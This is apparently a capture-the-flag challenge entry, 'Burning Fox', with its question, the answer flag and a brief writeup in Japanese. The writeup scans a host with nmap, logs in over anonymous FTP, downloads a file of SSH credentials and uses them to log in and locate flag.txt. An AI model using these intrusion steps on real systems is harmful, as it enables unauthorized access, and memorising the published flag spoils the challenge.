 # web: Burning Fox
## Question

flag.txtはどこ?

## Difficulty
- `easy`

## Flag
```
RaidersCTF{d1d_Y0U_knOw_a6ou7_$$h&ft9}
```

## Points
- `100`

## Writeup
```
# nmap IP -Pn -A
ftp-anon: Anonymous FTP login allowed (FTP code 230) \\ Anonymousでアクセスできることがわかる

# ftp IP \\ anonymous
ftp> ls ~/User/login/
login.txt
ftp> get login.txt

# cat login.txt \\ SSHでアクセスできる情報が表示される

# ssh username@IP
# find / -name flag.txt 2>/dev/null
/etc/flag.txt
# cat /etc/flag.txt \\ これでflagが表示される
```

## Author
- `towa`